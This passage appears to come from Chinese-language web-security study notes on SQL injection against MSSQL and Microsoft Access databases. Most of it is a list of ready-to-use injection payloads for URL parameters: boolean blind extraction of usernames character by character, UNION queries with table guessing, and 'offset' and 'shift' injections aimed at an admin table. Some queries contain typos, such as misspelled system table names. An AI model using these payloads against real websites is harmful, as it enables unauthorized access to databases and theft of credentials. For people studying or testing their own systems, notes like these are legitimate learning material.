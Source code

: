 char(126) == ~                

```mssql
#payload 	top关键字的 使用
select top 1 name from master.dbo.sysadatabases where name not in (select top 1 name from maseter.dbo.sysdatabases) 
```

### Access注入

单文件形式数据库。不含有information_schema库

```access
exists(select * from sysobjects) \\判断数据库类型
\\布尔盲注
#payload
?id=1 and asc(mid(username,1,1)) from user > 59
?id=1 and (select top 1 asc(mid(username,1,1)) from user where username not in (select top 1 username from user))>99

\\联合查询  要求数据格式一致且数量一致以及后面的select 查询必须含有 from
#payload
?id=1 order by 3
\\猜表 and select count(*) from tb_name \\爆破
?id=1 union select 1,2,3 from tb_name
?id=1 union select 1,2,3 from tb_name where username not in (select top 1 username from tb_name)

\\偏移注入
原理
通过 inner join 语句，使用数据库的自连接查询让数据库内部发生乱序从而偏移出需要的字段
?id=1 union select 1,2,3,* from admin

\\移位注入
?id=1 union select 1,2,3,4,ad min.* from admin
?id=1 union select 1,2,3,admin.* from admin
```

![image-20210716154117747](websafe/image-20210716154117747.png)
